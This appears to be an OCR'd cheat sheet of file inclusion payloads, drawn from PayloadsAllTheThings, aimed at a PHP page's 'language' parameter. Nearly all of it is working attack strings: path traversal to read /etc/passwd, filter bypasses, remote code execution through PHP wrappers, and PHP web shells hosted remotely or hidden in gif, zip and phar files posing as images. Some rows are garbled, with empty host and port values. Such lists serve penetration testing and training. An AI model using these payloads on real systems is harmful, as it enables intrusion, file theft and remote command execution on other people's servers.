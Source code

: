```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
```
| Category               | Command                                                                                                                    | Description                                                |
|------------------------|----------------------------------------------------------------------------------------------------------------------------|------------------------------------------------------------|
| **Local File Inclusion** |                                                                                                                            |                                                            |
|                        | /index.php?language=/etc/passwd                                                                                             | Basic LFI                                                  |
|                        | /index.php?language=../../../../etc/passwd                                                                                  | LFI with path traversal                                    |
|                        | /index.php?language=/../../../etc/passwd                                                                                    | LFI with name prefix                                       |
|                        | /index.php?language=./languages/../../../../etc/passwd                                                                      | LFI with approved path                                     |
| **LFI Bypasses**       |                                                                                                                            |                                                            |
|                        | /index.php?language=….//….//….//….//etc/passwd                                                                              | Bypass basic path traversal filter                         |
|                        | /index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64                                       | Bypass filters with URL encoding                           |
|                        | /index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]                             | Bypass appended extension with path truncation (obsolete)  |
|                        | /index.php?language=../../../../etc/passwd%00                                                                               | Bypass appended extension with null byte (obsolete)        |
|                        | /index.php?language=php://filter/read=convert.base64-encode/resource=config                                                 | Read PHP with base64 filter                                |
| **Remote Code Execution** |                                                                                                                          |                                                            |
|                        | /index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id                      | RCE with data wrapper                                      |
|                        | curl -s -X POST –data '<?php system($_GET["cmd"]); ?>' "http://:/index.php?language=php://input&cmd=id"                     | RCE with input wrapper                                     |
|                        | curl -s "http://:/index.php?language=expect://id"                                                                           | RCE with expect wrapper                                    |
|                        | data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls+/' | grep -v "<.*>"                                             | Base64 encoded python wrapped <?php system($_GET["cmd"]); ?> |
| **RFI**                |                                                                                                                            |                                                            |
|                        | echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server                                                 | Host web shell                                             |
|                        | /index.php?language=http://:/shell.php&cmd=id                                                                               | Include remote PHP web shell                               |
| **LFI + Upload**       |                                                                                                                            |                                                            |
|                        | echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif                                                                       | Create malicious image                                     |
|                        | /index.php?language=./profile_images/shell.gif&cmd=id                                                                       | RCE with malicious uploaded image                          |
|                        | echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php                                                | Create malicious zip archive 'as jpg'                      |
|                        | /index.php?language=zip://shell.zip%23shell.php&cmd=id                                                                      | RCE with malicious uploaded zip                            |
|                        | php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg                                                          | Create malicious phar 'as jpg'                             |